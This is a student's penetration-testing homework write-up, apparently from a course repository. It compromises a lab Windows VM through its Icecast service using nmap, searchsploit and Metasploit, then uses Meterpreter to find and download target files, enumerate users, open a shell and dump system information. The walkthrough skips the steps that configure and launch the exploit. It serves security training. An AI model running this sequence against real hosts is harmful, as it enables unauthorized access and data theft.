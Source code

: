 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:xxxxx`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:xxx`
- Target machine: DVW10 `IEUser:xxx`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx] attached to this github repository: https://github.com/philippe75004/Penetration-Testing-1-Homework/blob/3b007de07f5a5b7e324a67a9bcaf553561f92f4c/Report-Homework%20Penetration%20Test%20Engagement.docx
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
	 
![nmap services](/Screenshots/Nmap.PNG "nmap services")


*nmap vulnerabilities script scan: nmap --script rdp-ntlm-info.nse 192.168.0.20

![nmap scripts](/Screenshots/Nmap-script.PNG "nmap scripts")
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
	 
![searchsploit icecast](/Screenshots/searchsploit-icecast.PNG "searchsploit icecast")

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfdb init then msfconsole to access the console.

![msfconsole start](/Screenshots/msfconsole1.PNG "msfconsole start")
 

4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search Icecast and or search Icecast type:exploit

![msfconsole search](/Screenshots/search-msf-icecast1.PNG "msfconsole search")

 
   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0

![msfconsole use](/Screenshots/msfconsole-use.PNG "msfconsole use")

   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: meterpreter > search -f *secretfile.txt
	 
Found 1 result...
    c:\Users\IEUser\Documents\user.secretfile.txt (161 bytes)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: meterpreter > search -f *recipe.txt
	  
Found 1 result...
    c:\Users\IEUser\Documents\Drinks.recipe.txt (48 bytes)

 
  ####Bonus: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer:  meterpreter > download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'

![Meterpreter Download](/Screenshots/Meterpreter-download.PNG "Meterpreter Download")


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

meterpreter > run post/multi/recon/local_exploit_suggester

![Meterpreter Post](/Screenshots/Meterpreter-post.PNG "Meterpreter Post")

#### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:meterpreter > run post/windows/gather/enum_logged_on_users

![Meterpreter Post](/Screenshots/Meterpreter-post2.PNG "Meterpreter Post")

B. Open a Meterpreter shell. 
 
  > Answer: meterpreter > shell
Process 6380 created.
Channel 5 created.
Microsoft Windows [Version 10.0.17763.1935]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>

C. Run the command that displays the target's computer system information:

   > Answer: C:\Program Files (x86)\Icecast2 Win32>systeminfo | more


Host Name:                 MSEDGEWIN10
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:
Registered Organization:   Microsoft
Product ID:                00329-20000-00001-AA236
Original Install Date:     3/19/2019, 4:59:35 AM
System Boot Time:          4/19/2022, 6:18:07 PM
System Manufacturer:       Microsoft Corporation
System Model:              Virtual Machine
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2295 Mhz
BIOS Version:              American Megatrends Inc. 090007 , 5/18/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,066 MB
Available Physical Memory: 559 MB
Virtual Memory: Max Size:  3,346 MB
Virtual Memory: Available: 1,605 MB
Virtual Memory: In Use:    1,741 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\MSEDGEWIN10
Hotfix(s):                 11 Hotfix(s) Installed.
                           [01]: KB4601555
                           [02]: KB4465065
                           [03]: KB4470788
                           [04]: KB4480056
                           [05]: KB4486153
                           [06]: KB4535680
                           [07]: KB4537759
                           [08]: KB4539571
                           [09]: KB4549947
                           [10]: KB5003243
                           [11]: KB5003171
Network Card(s):           1 NIC(s) Installed.
                           [01]: Microsoft Hyper-V Network Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.0.20
                                 [02]: fe80::19ba:64e7:838c:b1b6
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
